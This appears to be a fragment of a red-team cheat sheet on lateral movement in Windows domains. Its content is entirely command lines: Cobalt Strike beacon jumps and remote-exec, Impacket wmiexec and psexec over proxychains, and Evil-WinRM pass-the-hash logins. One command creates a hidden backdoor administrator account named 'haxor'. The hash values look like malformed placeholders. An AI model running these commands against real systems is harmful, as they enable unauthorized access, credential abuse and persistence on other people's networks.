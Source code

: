 Impacket

```
# setup socks in CS
$ proxychains wmiexec.py -hashes 125j41487b0c24188af4e4fed5zcreba:125j41487b0c24188af4e4fed5zcreba b.boss@10.0.0.1
[...]
```

### PowerShell Remoting

CS

```
beacon> jump winrm64 w-west-239 peer-tcp
[...]

beacon> remote-exec winrm w-west-239 whoami; systeminfo
[...]
```

Evil-WinRM

```
# setup proxy via CS
beacon> socks 1050

#edit /etc/proxychains.conf
$ proxychains evil-winrm -i 10.0.0.3 -u administrator -H 125j41487b0c24188af4e4fed5zcreba
```

Invoke-Command

```
Invoke-Command -computername dtop23.vault.io -ScriptBlock {ipconfig /all} [-credential vault.io\b.boss]
```

### PsExec

CS

```
# jump
beacon> jump psexec64 w-west-239 peer-tcp
[...]

# remote exec
beacon> remote-exec psexec w-west-239 cmd.exe /c "net user haxor Passw0rd /add && net localgroup administrators haxor /add"
[...]
```

Impacket

```
# setup socks proxy via CS
$ proxychains psexec.py -hashes '125j41487b0c24188af4e4fed5zcreba:125j41487b0c24188af4e4fed5zcreba' 'vault.io/administrator@10.0.0.3'
```
